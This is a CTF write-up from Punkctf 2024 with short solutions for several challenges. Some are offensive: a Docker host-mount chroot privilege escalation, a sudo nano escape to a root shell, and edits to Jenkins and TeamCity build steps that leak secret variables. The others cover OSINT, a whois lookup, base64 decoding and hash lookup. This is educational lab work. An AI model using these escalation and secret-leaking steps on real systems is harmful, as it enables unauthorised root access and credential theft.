# Punkctf 2024

Here is a collection of solutions from some of the challenges I solved at punkctf2024 on Saturday 4th May 2024. 

## Docker privesc

[](img/dockerprivesc.png)

The user who you were logged in with can run docker commands.  So using a priv esc method from hacktricks I was able to get the flag. 


```bash
ip-10-0-10-192:/proc$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
alpine       latest    b2aa39c304c2   14 months ago   7.05MB
ip-10-0-10-192:/proc$ docker run -it -v /:/host/ alpine:latest chroot /host/ bash
chroot: can't execute 'bash': No such file or directory
ip-10-0-10-192:/proc$ docker run -it -v /:/host/ alpine:latest chroot /host/ sh
/ # ls
bin     certs   dev     etc     home    lib     media   mnt     opt     proc    root    run     run.sh  sbin    srv     sys     tmp     usr     var
/ # cd /root
~ # ls -la
total 8
drwx------    1 root     root            38 May  4 14:43 .
drwxr-xr-x    1 root     root            92 May  4 14:38 ..
-rw-------    1 root     root            19 May  4 14:43 .ash_history
-rw-r--r--    1 root     root            24 May  4 14:38 FLAG
~ # cat FLAG
punk_{5MWZIWA5EVSES0JC}
~ # 
```

## GTFObins1

[](img/gtfobins1.png)

```bash
  ____              _      ____                       _ _         
 |  _ \ _   _ _ __ | | __ / ___|  ___  ___ _   _ _ __(_) |_ _   _ 
 | |_) | | | | '_ \| |/ / \___ \ / _ \/ __| | | | '__| | __| | | |
 |  __/| |_| | | | |   <   ___) |  __/ (__| |_| | |  | | |_| |_| |
 |_|    \__,_|_| |_|_|\_\ |____/ \___|\___|\__,_|_|  |_|\__|\__, |
                                                            |___/ 


      +----------------------------------------------+
      |                 ## WELCOME ##                |
      |                                              |
      |  Dear player,                                |
      |    Its the punk admin here!                  |
      |                                              |
      |    I hope you enjoy this challenge I've      |
      |    gone and made for you.                    |
      |                                              |
      |    Any issues, you can drop me a message     |
      |    straight into /root/mail:                 |
      |       sudo /usr/bin/nano /root/mail          |
      |                                              |
      |                                       x x x  |
      +----------------------------------------------+

punk@ip-10-0-0-83:~$ whoami
punk
punk@ip-10-0-0-83:~$ sudo -l
Matching Defaults entries for punk on ip-10-0-0-83:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User punk may run the following commands on ip-10-0-0-83:
    (ALL) NOPASSWD: /usr/bin/nano /root/mail
```

Looking at gtfobins for nano it is possible to use sudo to get a root shell from within nano. 

[https://gtfobins.github.io/gtfobins/nano/](https://gtfobins.github.io/gtfobins/nano/)

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

[](img/nanogtfo.png)


## Hungry Punk

OSINT challenge.  Started with just a pokemon go map and a clue. 

[](img/pokemongo.png)

The clue spoke of the fast food restaurant being near the punk HQ.  I googled the HQ of punk security and looked at google maps.  And I found this.

[https://www.google.com/maps/place/Jubilee+Chop+Suey+House/@54.3393597,-1.4197077,17z/data=!4m14!1m7!3m6!1s0x487ebdca21bcacfd:0x39e74c217e8fbf89!2sC4DI+Group+Northallerton!8m2!3d54.3387687!4d-1.4308979!16s%2Fg%2F11rnd29bt6!3m5!1s0x487ebc7fa06a4a21:0xdd938a49f6fdf37d!8m2!3d54.3398644!4d-1.4190688!16s%2Fg%2F11hcd_r7td?entry=ttu](https://www.google.com/maps/place/Jubilee+Chop+Suey+House/@54.3393597,-1.4197077,17z/data=!4m14!1m7!3m6!1s0x487ebdca21bcacfd:0x39e74c217e8fbf89!2sC4DI+Group+Northallerton!8m2!3d54.3387687!4d-1.4308979!16s%2Fg%2F11rnd29bt6!3m5!1s0x487ebc7fa06a4a21:0xdd938a49f6fdf37d!8m2!3d54.3398644!4d-1.4190688!16s%2Fg%2F11hcd_r7td?entry=ttu)

The flag was `Jubilee Chop Suey House`

## Intothewebs

[](img/intothewebs.png)

This was just the case of looking up the whois information for the domain mentioned. 

```bash
whois punksecurity.co.uk                                                                   

    Domain name:
        punksecurity.co.uk

    Data validation:
        Nominet was able to match the registrant's name and address against a 3rd party data source on 08-Feb-2022

    Registrar:
        Cloudflare, Inc. [Tag = CLOUDFLARE]
        URL: https://cloudflare.com

    Relevant dates:
        Registered on: 12-Feb-2021
        Expiry date:  12-Feb-2025
        Last updated:  13-Jan-2024

    Registration status:
        Registered until expiry date.

    Name servers:
        mckinley.ns.cloudflare.com
        osmar.ns.cloudflare.com

    WHOIS lookup made at 14:46:27 04-May-2024

-- 
This WHOIS information is provided for free by Nominet UK the central registry
for .uk domain names. This information and the .uk WHOIS are:

    Copyright Nominet UK 1996 - 2024.

You may not access the .uk WHOIS or use any data from it except as permitted
by the terms of use available in full at https://www.nominet.uk/whoisterms,
which includes restrictions on: (A) use of the data for advertising, or its
repackaging, recompilation, redistribution or reuse (B) obscuring, removing
or hiding any or all of this notice and (C) exceeding query rate or volume
limits. The data is provided on an 'as-is' basis and may lag behind the
register. Access may be withdrawn or restricted at any time.
```

## Password cracking 3

[](img/passworcracking3.png)

This was just base64 encoded

```bash
echo cHVua197VGhleV9hcmVfbm90X2FsbF90aGlzX2Vhc3l9 | base64 -d
punk_{They_are_not_all_this_easy}
```

## Password cracking 4

[](img/passworcracking4.png)

I put the hash into crackstation and it gave me the string `collision`

[](img/crackstation.png)

## Saucy

[](img/saucy.png)

After logging into the gittea instance and the jenkins instance it was possible to edit files in gittea in order to leak the flag in the jenkins build run with:


```bash
echo $FLAG | base64
```

The resulting base64 string in the jenkins build output was:

```bash
echo cHVua197QjNMTE9MS0g1NkNGVzFRWX0K | base64 -d                    
punk_{B3LLOLKH56CFW1QY}
```

## Teamcity easy

[](img/teamcityeasy.png)

In this challenge it was possible to edit the build steps in teamcity and the way to leak the flag was to do:

```bash
echo %env.flag% | base64
```

[](img/teamcitybuildsteps.png)

[](img/teamcitybuildoutput.png)

The flag was:

```bash
echo cHVua197S0o4UTQwRVVZNlhVTDBIRn0K | base64 -d
punk_{KJ8Q40EUY6XUL0HF}
```

